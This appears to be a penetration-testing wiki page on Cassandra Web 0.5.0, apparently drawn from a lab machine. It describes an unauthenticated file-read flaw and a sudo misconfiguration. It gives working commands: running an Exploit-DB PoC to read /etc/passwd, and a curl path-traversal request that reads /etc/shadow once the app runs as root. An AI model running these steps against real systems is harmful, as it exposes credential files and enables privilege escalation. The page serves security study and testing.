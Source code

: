 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Cassandra Web

**Cassandra Web** is a web-based management tool designed for Apache Cassandra databases. It allows users to interact with the database through a GUI, enabling easy browsing of keyspaces and tables, as well as execution of Cassandra Query Language (CQL) queries. This application simplifies database administration by providing an accessible way to manage and query Cassandra without needing to use command-line tools. The default configuration file for Cassandra Web is located at `/etc/cassandra/cassandra.yaml`.

## LFI

Cassandra Web `0.5.0` contains an **unauthenticated file read vulnerability** due to improper path sanitization. An attacker can craft HTTP requests to retrieve arbitrary files from the server, such as `/etc/passwd`. The flaw resides in the web layer but impacts the host system, making it ideal for web-to-app exploitation. A python-based [PoC](https://www.exploit-db.com/exploits/49362) is available.

{% code overflow="wrap" %}
```bash
# Search for a PoC
$ searchsploit cassandra web
Cassandra Web 0.5.0 - Remote File Read | linux/webapps/49362.py

# LFI
$ python3 49362.py clue /etc/passwd
```
{% endcode %}

## Sudo

If a user can start the app with `sudo` permissions, it can be combined with the above LFI vulnerability and access sensitive files:

{% code overflow="wrap" %}
```bash
# Enumerate sudo permissions
x7331@kali:/$ sudo -l
User x7331 may run the following commands on kali:
    (ALL) NOPASSWD: /usr/local/bin/cassandra-web

# Start the app as sudo
x7331@clue:~$ sudo /usr/local/bin/cassandra-web --bind 0.0.0.0:7777 -u x7331 -p Passw0rd123! &

# Leverage the LFI vulnerability to access sensitive files
x7331@clue:~$ curl --path-as-is http://localhost:7777/../../../../../../../../etc/shadow
```
{% endcode %}
